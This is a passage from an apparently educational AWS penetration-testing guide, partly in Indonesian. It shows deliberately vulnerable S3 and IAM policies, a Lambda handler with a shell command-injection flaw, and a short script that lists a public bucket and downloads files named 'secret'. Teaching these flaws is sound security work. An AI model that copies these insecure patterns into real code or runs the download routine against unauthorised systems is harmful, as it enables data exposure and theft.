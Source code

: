 
### **Phase 3: Vulnerability Assessment**
**Tujuan**: Mengidentifikasi kelemahan keamanan yang dapat dieksploitasi

**Common AWS Vulnerabilities**:

1. **S3 Misconfigurations**:
   ```json
   // Vulnerable bucket policy
   {
     "Version": "2012-10-17",
     "Statement": [{
       "Effect": "Allow",
       "Principal": "*",  // ❌ Public access!
       "Action": "s3:GetObject",
       "Resource": "arn:aws:s3:::company-secrets/*"
     }]
   }
   ```

2. **IAM Over-privileges**:
   ```json
   // Dangerous IAM policy
   {
     "Version": "2012-10-17",
     "Statement": [{
       "Effect": "Allow",
       "Action": "*",  // ❌ Full access!
       "Resource": "*"
     }]
   }
   ```

3. **Lambda Vulnerabilities**:
   ```python
   # Vulnerable Lambda code
   def lambda_handler(event, context):
       command = event['command']
       # ❌ Command injection vulnerability!
       result = subprocess.run(command, shell=True)
       return result.stdout
   ```

---

### **Phase 4: Exploitation**
**Tujuan**: Membuktikan dampak vulnerability dengan mengeksploitasinya

**S3 Exploitation Example**:
```python
def exploit_s3_bucket():
    # 1. Discover public bucket
    bucket = "company-sensitive-data"
    
    # 2. List contents
    objects = s3.list_objects_v2(Bucket=bucket)
    
    # 3. Download sensitive files
    for obj in objects['Contents']:
        if 'secret' in obj['Key'].lower():
            print(f"🚨 Found: {obj['Key']}")
            download_file(bucket, obj['Key'])
    
    # 4. Demonstrate impact
    analyze_downloaded_files()
```
